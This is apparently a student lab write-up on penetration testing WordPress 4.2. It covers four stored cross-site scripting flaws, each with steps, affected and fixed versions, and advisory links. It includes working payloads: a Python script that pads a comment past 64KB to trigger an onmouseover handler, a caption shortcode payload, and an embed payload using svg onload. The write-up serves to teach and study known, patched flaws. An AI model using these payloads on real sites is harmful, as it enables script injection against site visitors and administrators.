


# Week 7 & 8 - Wordpress Penetration testing

## Vulnerability 1:
Authenticated Stored Cross-Site Scripting via Image Filename

Steps:
1. Intro -The XSS code can be inserted as a crafted filename of any post attachment. This post when viewed can cause malicious actions to occur on the viewers computer.
2. The file name given to the image to be used here is:
.jpg
3. The image is uploaded in a post as an attachment file.
4. When the post is viewed an alert pops up on the viewers screen.

Vulnerability Type:
Cross Site Scripting (XSS)

Affected Versions: 4.2

Fixed in version: 4.2.10

References: 
https://sumofpwn.nl/advisory/2016/persistent_cross_site_scripting_vulnerability_in_wordpress_due_to_unsafe_processing_of_file_names.html

## Vulnerability 2:
Unauthenticated Stored Cross Site Scripting:

Steps:
1. Intro - A text string that is longer than the SQL specified text field can lead to truncation and malformed HTML, opening up opportunities for XSS.
2. Create a string longer than the specified 64k character limit. Upoun truncation this renders as malformed HTML. Browsers try to fix this which leads to interpretation of the onmouseover exploit.
3. Create the string using the following python code to generate a file:

out = "<a title='xonmouseover=alert(unescape(/hello%20world/.source))style=position:absolute;left:0;top:0;width:5000px;height:5000px  "
with open('xss.txt','a') as f:
    f.write(out)
    for i in range(64*1024):
        f.write('X')
    f.write("</a>")

4. Use the string generated in a comment on WP.
5. View the comment to get the alerts(pop-ups) due to XSS.

Vulnerability Type:
Cross Site Scripting (XSS)

Affected Versions: 4.2

Fixed in version: 4.2.1

References:
https://wpvulndb.com/vulnerabilities/7945
http://klikki.fi/adv/wordpress2.html

    
## Vulnerability 3:
Authenticated Shortcode Tags Cross-Site Scripting

Steps:
1. Intro - Shortcode tags can be mixed with HTML to lead to malformed HTML, bypassing KSES validation and opening up XSS. Can lead to persistant XSS.

2. Enter the following code ina WP post:
TEST!!![caption width="1" caption='<a href="' ">]</a><a href="http://onMouseOver='alert(1)'">Click me</a>

3. View post to get XSS.

Vulnerability Type: Cross Site Scripting (XSS)

Affected Versions: 4.2

Fixed in version: 4.2.5

References: 
http://blog.knownsec.com/2015/09/wordpress-vulnerability-analysis-cve-2015-5714-cve-2015-5715/
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5714

## Vulnerability 4:
Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds

Steps:
1. Intro - A stored XSS vulnerability in YouTube Embed 3.3.2 (and possibly earlier versions) allows admin users to compromise other admins and super admins. YouTube Embed is a WordPress plugin with over 30,000 active installs.
2. Embed the following link into a WP post: 
[embed src='http://youtube.com/embed/12345\x3csvg onload=alert(1)\x3e'][/embed]
3. View post to get XSS.

Vulnerability Type: Cross Site Scripting (XSS)

Affected Versions: 4.2

Fixed in version: 4.2.13

